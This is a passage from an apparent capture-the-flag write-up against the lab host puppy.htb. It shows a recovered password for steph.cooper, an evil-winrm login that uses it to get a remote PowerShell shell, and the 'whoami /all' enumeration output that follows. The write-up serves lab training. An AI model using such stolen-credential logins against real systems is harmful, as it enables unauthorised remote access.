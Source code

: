 ```shell
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

| Password       |
| -------------- |
| ChefSteph2025! |

And since `steph.cooper` also had the `CanPSRemote` permission assigned, we were able to login using `Evil-WinRM`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i puppy.htb -u 'steph.cooper' -p 'ChefSteph2025!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper\Documents>
```

## Enumeration (steph.cooper)

The user `steph.cooper` had no special permissions. So we moved on.

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== ==============================================
puppy\steph.cooper S-1-5-21-1487982659-1829050783-2281216199-1107


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
```